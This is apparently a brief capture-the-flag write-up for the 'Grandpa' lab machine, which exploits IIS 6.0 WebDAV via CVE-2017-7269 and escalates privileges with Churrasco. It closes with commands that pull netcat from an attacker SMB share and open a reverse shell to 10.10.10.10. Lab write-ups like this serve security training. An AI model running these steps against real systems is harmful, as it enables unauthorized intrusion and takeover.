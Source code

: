 # Grandpa

### Reconnaissance

- port 80/tcp Microsoft IIS 6.0

WebDAV server with PUT allowed but no uploads are possible when tested with davtest (no write permissions in 
the wwwroot directory)

No interesting directories discovered from enumeration

### Exploitation

IIS 6.0 is vulnerable to CVE-2017-7269, this nice script here https://github.com/crypticdante/CVE-2017-7269 
gives us a reverse shell

Finding a directory was challenging, strange directory C:\wmpub was writable

### Privilege Escalation

SeImpersonatePrivileges + old OS = churrasco https://github.com/Re4son/Churrasco/

Use Impacket's smbserver.py for file uploads (ftp and certutil fail)

`python2.7 smbserver.py share .`

```
copy \\10.10.10.10\share\nc.exe .
copy \\10.10.10.10\share\churrasco.exe .
.\churrasco.exe -d "C:\wmpub\nc.exe 10.10.10.10 80 -e cmd.exe
```
